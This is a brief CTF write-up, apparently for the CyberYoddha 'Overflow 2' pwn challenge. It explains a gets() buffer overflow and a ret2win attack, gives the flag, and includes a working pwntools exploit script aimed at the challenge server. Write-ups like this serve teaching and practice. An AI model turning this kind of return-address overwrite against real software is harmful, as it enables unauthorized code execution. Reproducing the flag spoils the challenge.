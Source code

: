 # Overflow 2 - Pwn

We look at the c source file, find a function run_shell that pops a shell. The function vuln creates a 16 character buffer and uses gets to read into it, creating buffer overflow.


We can see in the disassembly this input is at ebp-0x18, and there is no PIE. We can execute a simple ret2win attack, sending 28 bytes and then the address of the run_shell function, overwriting the return address with the run_shell function.


This pops a shell, so we cat flag.txt to get the flag.

#### Flag: CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}

```py
from pwn import *
NUM_TO_RET = 0x18 + 4
padding = b'A'*NUM_TO_RET
e = ELF("./overflow2")
p = e.process() if args.LOCAL else remote('cyberyoddha.baycyber.net', 10002)
p.sendline(padding + p32(e.symbols['run_shell']))
p.interactive()
```
